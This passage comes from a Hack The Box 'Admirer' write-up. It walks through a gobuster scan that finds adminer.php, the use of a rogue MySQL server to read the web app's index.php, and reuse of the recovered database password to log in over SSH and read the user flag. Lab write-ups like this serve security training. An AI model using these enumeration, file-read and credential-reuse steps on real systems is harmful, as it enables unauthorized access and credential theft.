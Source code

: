 **db_admin.php**

```
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
```

On the production server I can't find the **db_admin.php** file so I re-ran gobuster in the **/utility-scripts** directory and found an additional file.

```
root@kali:~/htb/admirer# gobuster dir -w ~/tools/SecLists/Discovery/Web-Content/big.txt -x txt,php -u http://admirer.htb/utility-scripts
[...]
/adminer.php (Status: 200)
/info.php (Status: 200)
/phptest.php (Status: 200)
```

## Reading files through Adminer

![](/assets/images/htb-writeup-admirer/image-20200502184553525.png)

I can connect to any server using the interface so by using a [rogue MySQL server](https://github.com/allyshka/Rogue-MySql-Server) running on my VM I was able to read files from the target system. I read `/var/www/html/index.php` and obtained the real DB password running on the target system.

```
$servername = "localhost";\n
$username = "waldo";\n
$password = "&<h5b~yK3F#{PaPB&dA}{H>";\n
$dbname = "admirerdb";\n\n
// Create connection\n
$conn = new mysqli($servername, $username, $password, $dbname);\n
```

I can log in with SSH with the **waldo** username:

```
root@kali:~/htb/admirer# ssh waldo@10.10.10.187
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Sat May  2 23:04:06 2020 from 10.10.14.26
waldo@admirer:~$ cat user.txt
f6fc72bf41c41ed65d4ca1e95ef76dbe
```
